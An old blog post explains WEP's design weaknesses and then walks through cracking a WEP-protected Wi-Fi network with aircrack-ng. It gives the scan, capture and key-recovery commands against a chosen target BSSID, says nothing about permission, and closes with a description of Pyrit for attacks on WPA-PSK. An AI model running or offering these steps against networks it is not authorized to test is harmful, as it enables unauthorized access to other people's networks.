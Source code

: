 ```yaml
---
comments: true
date: 2010-04-03 17:29:24
layout: post
slug: hack-wireless-network
title: How to Hack a Wireless Network
wordpress_id: 22
tags:
- Aircrack-ng
- Debian
- Network Security
- Ubuntu
- WEP
- Wi-Fi
- WPA
---
```


[WEP](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) was intended to provide comparable confidentiality to a traditional wired network (in particular it does not protect users of the network from each other, but from outsiders), hence the name WEP.

Despite the intention, several serious weaknesses were identified by [cryptanalysts](http://en.wikipedia.org/wiki/Cryptanalysis) over the last years. The severity of the weaknesses means that any WEP protected network can be cracked using the right software within two minutes or less.

WEP was superseded by [Wi-Fi Protected Access](http://en.wikipedia.org/wiki/Wi-Fi_Protected_Access) (also known as WPA) in 2003, and then by the full [IEEE 802.11i](http://en.wikipedia.org/wiki/IEEE_802.11i-2004) standard (also known as WPA2) in 2004. Despite the weaknesses, WEP provides a level of security that can deter casual snooping.

**Hack Versus Crack**

For your information - just to get the right jargon.

The Eric S. Raymonds [Jargon File](http://www.catb.org/jargon) contains a bunch of definitions of the term "[hacker](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29)", most having to do with technical adeptness and a delight in solving problems and overcoming limits. The basic difference between a hacker and a cracker is this: hackers build things, crackers break them.

**Howto Conduct The Actual Crack**

It's fairly easy to [crack](http://en.wikipedia.org/wiki/Password_cracking) a [WEP](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) encrypted [wireless network](http://en.wikipedia.org/wiki/Wi-Fi), because the [WEP encryption](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) has some serious flaws in its design, flaws that makes it easy and fast to [crack](http://en.wikipedia.org/wiki/Password_cracking) or hack.

Install [aircrack-ng](http://www.aircrack-ng.org/) - on Debian or Ubuntu by:

    
    sudo aptitude install aircrack-ng


Then start aircrack-ng to look for wireless networks:

    
    sudo airodump-ng eth1

Then notice the channel number of the wireless network you want to crack.

    CH  1 ][ Elapsed: 9 mins ][ 2012-08-19 18:35
     
    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    
    70:71:BC:A6:FF:FF  -68      285      191    0   4  54e  WEP  WEP         wifi-0
    00:17:9A:F1:FF:FF  -77      599      104    0   6  54 . WEP  WEP         wifi-1
    4C:E6:76:C4:FF:FF  -38      926       60    0   2  54e  WPA2 CCMP   PSK  wifi-2
    C4:3D:C7:34:FF:FF  -62      476      397    0   8  54e  WPA  TKIP   PSK  wifi-3


Quit aircrack-ng and start it again with med specific channel number to collect packages faster:

    
    sudo airodump-ng -c 4 -w dump eth1


Then wait and let it collect about 500K IVS and the try the do the actual crack:

    
    sudo aircrack-ng -b 0a:0b:0c:0d:0e:0f dump-01.cap


The MAC after the -b option is the BSSID of the target and dump-01.cap the file containing the captured packets.

**Only WEP Encrypted Networks**

Keep in mind that this approach is only usable in relation to WEP encrypted wireless networks, and cannot be used to crack WPA and WPA2 encrypted networks.

However, there is a new project called [Pyrit](http://code.google.com/p/pyrit/),which is currently under it's way. Pyrit takes a step ahead in attacking WPA-PSK and WPA2-PSK, the protocol that today de-facto protects public [WIFI](http://en.wikipedia.org/wiki/Wi-Fi)-airspace. The project's goal is to estimate the real-world security provided by these protocols. Pyrit does not provide [binary](http://en.wikipedia.org/wiki/Binary_file) files or wordlists and does not encourage anyone to participate or engage in any harmful activity. This is a research project, not a cracking tool - keep that in mind ;-)

Pyrit's implementation allows to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time-tradeoff. The performance gain for real-world-attacks is in the range of three orders of magnitude which urges for re-consideration of the protocol's security. Exploiting the computational power of [GPUs](http://en.wikipedia.org/wiki/Graphics_processing_unit), this is currently by far the most powerful attack against one of the world's most used security-protocols.
